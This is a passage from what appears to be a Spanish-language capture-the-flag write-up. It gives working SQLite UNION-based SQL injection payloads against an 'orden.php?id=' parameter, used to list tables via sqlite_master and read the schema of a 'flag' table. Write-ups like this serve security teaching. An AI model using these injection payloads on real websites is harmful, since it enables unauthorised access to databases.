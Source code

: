 3. Identificación de tablas.

```text
/orden.php?id=1 UNION SELECT (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),'a','a'-- -

Y:

/orden.php?id=1 UNION SELECT (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 2 offset 1),'a','a'-- -

Para identificar otras tablas.
```

![Identificación de otras tablas](images/web_tacos_chano_4.png)

4. Identificación de nombre de columnas en tabla identificada (opcional).

```text
/orden.php?id=1 UNION SELECT (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='flag'),'a','a'-- -
```
